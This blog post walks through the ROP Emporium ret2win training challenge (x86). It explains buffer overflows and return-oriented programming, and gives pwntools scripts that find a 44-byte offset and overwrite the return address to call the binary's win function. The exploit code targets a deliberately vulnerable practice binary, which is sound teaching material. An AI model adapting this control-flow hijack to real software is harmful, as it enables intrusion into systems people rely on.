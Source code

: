 ```yaml
---
layout: post
title:  "ROP Emporium ret2win Writeup (x86)"
date:   2024-05-31 13:15:45 -0400
categories: rop-emporium ret2win
tags: rop-emporium ret2win x86 writeup
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[first challenge](https://ropemporium.com/challenge/ret2win.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### What is Return Oriented Programming?
#### Buffer Overflows
When a program needs to write data to memory,
it will need to reserve a space for that data to be stored
(a buffer).
As long as the data being written is less than or equal
to the buffer size, things are fine.

But what happens when the data being written is larger
than the buffer? Once the reserved space is filled, the program
will continue writing past the buffer. If it's located
on the stack, it will overwrite key values the program
needs to run as intended. 

One of these values sets the `instruction pointer`.
This tells the program the location of the next
instructions to execute. Whenever a function returns,
it will `pop` a value off of the stack and set that
to the instruction pointer.
By controlling this value, we essentially control 
the flow of the program.

![stack-bof](/images/ret2win/stack-bof.png)

How can we abuse this? First we write instructions into the
buffer. Then we force the instruction pointer (`EIP` in
the image) to point
to that buffer. This will make the next instructions
the program runs completely controlled by the attacker.
We've achieved arbitrary code execution!

But as attacks improve so do defenses. When compiled
with a non executable stack, the program no longer
executes code in locations that can be written to.
This fixes the described
[stack buffer overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow){:target="_blank"}{:rel="noopener noreferrer"}
vulnerability, but we
still have enough resources to achieve arbitrary
code execution...

#### Return Oriented Programming
Rather than injecting our own instructions, we can
reuse the instructions that are already there! The
catch is we can only use a block of instructions
that end in a `ret` instruction. This is where
the `Return` part of `Return Oriented Programming`
gets its name! 

What makes the `ret` instruction so special? If you
recall, the instruction pointer only gets updated 
when a function returns. If we want to run the 
following instructions

```nasm
pop rax
pop rbx
mov [rax], rbx
```

it may not exist in the binary in that form. However,
if we can find each individual instruction somewhere
in the binary followed by a `ret`, we can chain
these blocks together essentially achieving
the same result

```nasm
pop rbx
ret
...
mov [rax], rbx
ret
...
pop rax
ret
```

These blocks of instructions which end in a `ret` 
instruction are also known as `gadgets`.

So by reusing instructions found before a `ret` instruction
we can chain an arbitrary number of gadgets to complete
almost any task. There will be limitations based on
the stack size, the available gadgets, as well as
a hacker's ability to find a non trivial path, but that's
where the fun is!

## Tools
To make exploit development easier I'll be using
the following tools for all challenges
- [radare2](https://github.com/radareorg/radare2){:target="_blank"}{:rel="noopener noreferrer"}
- [pwndbg](https://github.com/pwndbg/pwndbg){:target="_blank"}{:rel="noopener noreferrer"}
- [pwntools](https://github.com/Gallopsled/pwntools){:target="_blank"}{:rel="noopener noreferrer"}

Radare2 is a powerful commandline tool which makes
binary analysis and reverse engineering easier. It'll
help us find useful gadgets and addresses.

Pwndbg is a plugin for GDB which helps exploit developing.
This will make it easier to see how our payload changes
the control flow of the vulnerable program.

Pwntools is a python library which will be used to
build and send our payload to the vulnerable program.

## Program Protections
Since this is a ROP challenge we know the stack won't
be executable. Just to be sure we can run
```bash
checksec ret2win32
```
![checksec](/images/ret2win/x86-checksec.png)

The `NX` flag is set meaning you can't execute code from
a writable part of memory. We're also dealing with
a 32 bit binary using little endian.

> This will be the same for every challenge
{: .prompt-info }

## Buffer Size
> Use the `cyclic` function and command in `pwntools`
> and `pwndbg`
{: .prompt-tip }
We need to know how big the buffer is before we start
overwriting the instruction pointer. We can use the
`cyclic()` function from pwntools to find the exact
offset. We just need to run the following
```python
#!/bin/python3
from pwn import *

# set terminal gdb will run in
# replace 'kitty' with your terminal
# context.terminal = ['kitty']

# create payload
payload = cyclic(60, n=4)

# debug rop chain
io = gdb.debug('./ret2win32', '''
               b pwnme
               c
               ''')
io.sendline(payload)

# keep the program alive
io.interactive()
```
The python code will stop when the pwnme function is
called. Continue the program with `continue` and
wait for the program to crash. To get the offset we
can run
```
cyclic -l 0x6161616c -n 4
```
![offset](/images/ret2win/x86-offset.png)

Our offset is 44 bytes. After this, we're able to control
where the program will return to.

> This will also be the same for every challenge under 
> the same architecture
{: .prompt-info }


## Exploit Crafting
According to the
[challenge page](https://ropemporium.com/challenge/ret2win.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call the function `ret2win`
### Function Address
> You can use radare2 to list function addresses
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![ret2win-addr](/images/ret2win/x86-ret2win-addr.png)

So the address of `sym.ret2win` is `0x0804862c`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# create payload
ret2win_addr = 0x0804862c
# fill buffer + rbp
payload = b'A'*44
# adds the proper 32 bit padding
# and uses little endian
payload += p32(ret2win_addr)

# send payload
io = process('./ret2win32')
io.sendline(payload)

# retrieve flag
io.recvuntil(b'flag:\n')
flag = io.recvline()
success(flag)
```
![flag](/images/ret2win/x86-flag.png)

## Conclusion
This challenge is fairly straightforward but being able
to control the `instruction pointer` is the
basis for all challenges going forward. Since the goal
of ROP Emporium is to teach ROP in isolation, all
`x86` challenges will use the same offset
of `44 bytes` and will have the same compiled protections.
For the sake of brevity, I won't go over the process
again.

